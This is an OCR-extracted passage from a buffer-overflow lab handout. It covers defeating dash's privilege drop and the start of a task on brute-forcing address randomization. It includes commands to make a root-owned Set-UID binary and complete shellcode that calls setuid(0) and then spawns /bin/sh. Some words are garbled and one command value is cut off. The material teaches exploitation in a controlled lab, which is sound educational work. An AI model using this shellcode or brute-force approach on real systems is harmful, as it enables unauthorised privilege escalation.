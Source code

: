 The above program can be compiled and set up using the following commands (we need to make it
root-ownedSet-UIDprogram):

```
$ gcc dash_shell_test.c -o dash_shell_test
$ sudo chown root dash_shell_test
$ sudo chmod 4755 dash_shell_test
```

From the above experiment, we will see thatseuid(0)makes a difference. Let us add the assembly
code for invoking this system call at the beginning of our shellcode, before we invokeexecve().

```
char shellcode[] =
"\x31\xc0" /* Line 1: xorl %eax,%eax */
"\x31\xdb" /* Line 2: xorl %ebx,%ebx */
"\xb0\xd5" /* Line 3: movb $0xd5,%al */
"\xcd\x80" /* Line 4: int $0x80 */
// ---- The code below is the same as the one in Task 2 ---
"\x31\xc0"
"\x50"
"\x68""//sh"
"\x68""/bin"
"\x89\xe3"
"\x50"
"\x53"
"\x89\xe1"
"\x99"
"\xb0\x0b"
"\xcd\x80"
```

The updated shellcode adds 4 instructions: (1) setebxto zero in Line 2, (2) seteaxto0xd5via Line
1 and 3 (0xd5issetuid()’s system call number), and (3) execute the system call in Line 4. Using this
shellcode, we can attempt the attack on the vulnerable program when/bin/shis linked to/bin/dash.
Using the above shellcode to modifyexploit.corexploit.py; try the attack from Task 2 again and
see if you can get a root shell. Please describe and explain your results.

#### 2.6 Task 4: Defeating Address Randomization

On 32-bit Linux machines, stacks only have 19 bits of entropy, which means the stack base address can have
219 =524, 288 possibilities. This number is not that high and can be exhausted easily with the brute-force
approach. In this task, we use such an approach to defeat the address randomization countermeasure on our
32-bit VM. First, we turn on the Ubuntu’s address randomization using the following command. We run the
same attack developed in Task 2. Please describe and explain your observation.

```
$ sudo /sbin/sysctl -w kernel.randomize_va_space=
```
